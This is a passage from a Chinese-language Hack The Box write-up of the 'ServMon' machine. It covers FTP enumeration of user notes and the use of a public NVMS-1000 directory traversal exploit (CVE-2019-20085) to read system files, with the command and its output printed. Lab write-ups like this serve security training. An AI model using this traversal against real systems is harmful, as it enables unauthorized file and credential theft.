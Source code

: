 ```
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  11:06AM       <DIR>          Nadine
01-18-20  11:08AM       <DIR>          Nathan

```

进去是一个Users文件夹，二级目录下有两个用户文件夹```Nadine```和```Nathan```，不错，得到两个用户名
把```Nadine/Confidential.txt```和```Nathan/Notes to do.txt```下载到本地分析


查看这两个文件
```
──(root💀kali)-[~/htb/ServMon]
└─# cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/htb/ServMon]
└─# cat 'Notes to do.txt'

1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint   
```

有点CTF的意思了。。。

根据提示可能有一个secure folder存放了Nathan修改后的password，这个密码可以用来登录NVMS后台
Nathan的桌面上有一个Passwords.txt文件


## 目录遍历
80端口的cms叫做```NVMS-10000```，经查看存在一个目录遍历漏洞

我在github上找到了[这个](https://github.com/AleDiBen/NVMS1000-Exploit)漏洞编号为``` CVE - 2019-20085```的exp

尝试读取```Windows/system.ini```文件

```
┌──(root💀kali)-[~/htb/ServMon]
└─# ./nvms.py 10.10.10.184 Windows/system.ini win.ini
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
; for 16-bit app support                                                                                                                                                                                                                    
[386Enh]                                                                                                  
woafont=dosapp.fon                                                                                            
EGA80WOA.FON=EGA80WOA.FON                                                                                           
```